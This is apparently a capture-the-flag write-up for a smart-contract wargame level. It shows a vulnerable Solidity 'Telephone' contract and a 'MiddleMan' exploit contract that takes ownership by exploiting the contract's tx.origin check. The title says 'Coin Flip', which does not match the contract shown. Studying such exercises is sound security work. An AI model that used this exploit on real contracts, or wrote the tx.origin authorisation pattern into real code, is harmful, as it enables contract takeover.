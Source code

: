 # Level 3 - Coin Flip

### Objective

The objective of this level is as follows:

1. Claim ownership of the contract

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Solution

As we can see in the contract above, the `changeOwner` function can be used to claim ownership of the contract if the transaction origin address is not the same as the message sender address. So, we must call `changeOwner` from a separate smart contract `MiddleMan` (seen below) so that `tx-origin` is our address and `msg.sender` is `MiddleMan`'s address.

```
pragma solidity ^0.6.0;

interface Tele {
  function changeOwner(address _owner) external;
}

contract MiddleMan {
  function changeOwner(address _addr) public {
    Tele(_addr).changeOwner(msg.sender);
  }
}
```

We deploy `MiddleMan` and enter the `Telephone` contract address as a parameter.

Done!

